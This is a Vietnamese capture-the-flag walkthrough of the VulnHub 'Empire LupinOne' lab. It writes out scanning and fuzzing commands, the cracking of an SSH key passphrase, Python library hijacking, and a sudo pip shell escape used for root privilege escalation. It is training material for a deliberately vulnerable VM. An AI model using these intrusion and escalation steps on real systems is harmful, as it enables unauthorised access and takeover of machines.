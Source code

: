 # Lab
**I. EMPIRE LUPIN ONE**

Nguồn hướng dẫn:[Đây](https://www.hackingarticles.in/empire-lupinone-vulnhub-walkthrough/)

1. Tìm kiếm mục tiêu, quét cổng

   Đầu tiên dùng netdiscover tool để khám phá mạng xung quanh, tìm địa chỉ IP mục tiêu:
   `netdiscover`
   Sau khi đã có IP máy mục tiêu, quét các cổng bằng Nmap tool:
   `nmap -sC -sV 192.168.1.4`
   ![image](https://github.com/tninh27/Lab/assets/105789492/f20bdbc8-360a-4bec-9106-99a9aafe3fee)
  Ta có:
  - cổng 22 có máy chủ SSH
  - cổng 80 có dịch vụ HTTP (Apache Server), một thư mục /~myfiles
2. Liệt kê
  Dùng trình duyệt xem folder /~myfiles:
  ![image](https://github.com/tninh27/Lab/assets/105789492/3ed47e03-fa62-4b7a-86c6-f6f5b4dd5568)
  Thử xem bằng chế độ view-source:
  ![image](https://github.com/tninh27/Lab/assets/105789492/28c2d911-58d7-49af-85fa-274503a15888)
  - Đã có gợi ý đầu tiên
  Dùng kỹ thuật Fuzzing với ffuf tool, xem các thư mục:
  `ffuf -c -w /usr/share/wordlists/wfuzz/webservices/ws-dirs.txt -u 'http://192.168.1.4/~FUZZ'`
  ![image](https://github.com/tninh27/Lab/assets/105789492/ff4b2830-82c3-491a-9ee2-86627c65f0cf)
  - Tìm thấy thư mục bí ẩn secret, mở bằng trình duyệt:
  ![image](https://github.com/tninh27/Lab/assets/105789492/2ae6fe73-c722-41a7-a28f-4f746c62e0ec)
  - Gợi ý tên tài khoản đăng nhập là: icex64, khóa sshkey
  Để tìm khóa ssh  đó, tiếp tục sử dụng fuzzing với ffuf tool :
  `ffuf -c -ic -w /usr/share/wordlists/wfuzz/webservices/ws-dirs.txt -u 'http://192.168.1.4/~secret/.FUZZ' -fc 403 -e .txt,.html`
  ![image](https://github.com/tninh27/Lab/assets/105789492/e03160b8-ab89-40bd-a163-86fe5112a5de)
  - Tìm thấy tệp bí mật secret.txt, mở bằng trình duyệt:
  ![image](https://github.com/tninh27/Lab/assets/105789492/7a80106b-63d8-4343-be97-13c76bc3b08f)
  - Tìm được 1 đoạn mã code base58, giải mã nó ta được khóa ssh sau
  ![image](https://github.com/tninh27/Lab/assets/105789492/e4ef6819-5fc8-42e3-a84b-b4b835f78e41)
  Tiến hành lưu trữ lại khóa tìm được này vào file *ssh*
3. Khai thác
  Dùng ssh2john, băm file *sshkey* vào file *hash* :
  `/usr/share/john/ssh2john.py sshkey > hash`
   Dùng john, bẻ khóa giá trị băm:
  `john --wordlist=/usr/share/wordlists/fasttrack.txt hash`
  ![image](https://github.com/tninh27/Lab/assets/105789492/cc291c25-80fb-4c8e-ac2a-a7331c2005da)
  - Mật khẩu: P@55w0rd!
  Đăng nhập tài khoản *icex64* bằng khóa *sshkey* và mật khẩu vừa tìm được:
  `ssh -i sshkey icex64@192.168.1.4 `
  ![image](https://github.com/tninh27/Lab/assets/105789492/4aea8796-5900-4f89-99cc-4a537defdc5a)
  Kiểm tra quyền:
  `sudo -l`
  ![image](https://github.com/tninh27/Lab/assets/105789492/eaa6b75c-aa5b-4865-bb11-123451aecc52)
  - Tìm được người dùng arsense có thể khai thác bằng các chiếm thư viện python
  Xem nội dung file heist.py:
  ![image](https://github.com/tninh27/Lab/assets/105789492/f854b90d-b81d-4f45-9a8d-a11ddd1eb19f)
4. Leo thang đặc quyền
  Tải Linpeas tool từ Github, cấp quyền thực thi cho nó: [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
  `wget https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS`
  `chmod +x ./linpeas.sh`
  Tiến hành chạy linpeas:
	`./linpeas.sh`
  ![image](https://github.com/tninh27/Lab/assets/105789492/12216f46-ebf6-4888-8983-66dea24c3530)
  - Tìm được đường dẫn thư mục thư viện python
  Dùng nano sửa file trên, thêm lệnh /bin/bash:
  ![image](https://github.com/tninh27/Lab/assets/105789492/22d716ac-8a01-49ab-a8a5-c664d9cfdc70)
  Chuyển người dùng icex64 sang arsene:
  `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py `
  ![image](https://github.com/tninh27/Lab/assets/105789492/f8f4b692-7a97-4faf-94ce-df9486abaf45)
  Kiểm tra quyền tài khoản arsene:
  `sudo -l `
  ![image](https://github.com/tninh27/Lab/assets/105789492/9b0646cf-cc53-4520-874d-88d289923f9f)
  - Thấy có quyền thực thi nhị phân pip mà không cần xác minh root, tiến hành leo thang đặc quyền:
  ```TF=$(mktemp -d)
  echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
  sudo pip install $TF```
  ![image](https://github.com/tninh27/Lab/assets/105789492/055efa6f-b949-4888-9681-f32caf49769e)
  - Đã đăng nhập tài khoản root, xem file root.txt:
  ![image](https://github.com/tninh27/Lab/assets/105789492/0d60f705-2c87-4cd3-9c38-f556889ec9f0)




















